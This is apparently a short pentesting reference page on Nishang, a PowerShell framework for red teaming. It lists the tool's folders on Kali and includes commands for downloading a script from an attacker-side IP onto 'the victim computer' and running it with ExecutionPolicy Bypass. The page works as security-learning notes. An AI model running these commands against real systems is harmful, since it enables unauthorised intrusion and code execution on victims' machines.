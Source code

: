 ```yaml
---
description: >-
  Nishang is a framework and collection of scripts and payloads which enables
  usage of PowerShell for offensive security, penetration testing and red
  teaming. Nishang is useful during all phases of pene
---
```


# Nishang

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

**Link**: [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang) 

Also installed by default on Kali: 

```text
root@kali:~# ls -l /usr/share/nishang/ 
total 48 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Antak-WebShell 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Backdoors 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Escalation 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Execution 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Gather 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Misc 
-rw-r--r-- 1 root root  495 Jun  4 11:14 nishang.psm1 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Pivot 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 powerpreter 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Prasadhak 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Scan 
drwxr-xr-x 2 root root 4096 Jun  4 11:15 Utility 
```

We will need to upload the nishang scripts into the victim computer: 

`powershell iwr -uri 10.10.14.14/{Nishang script}`  

Load the script: 

`powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1` 

## Scripts 

Nishang currently contains the following scripts and payloads. 

### ActiveDirectory 

* [Get-Unconstrained](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Get-Unconstrained.ps1) – Find computers in active directory which have Kerberos Unconstrained Delegation enabled. 
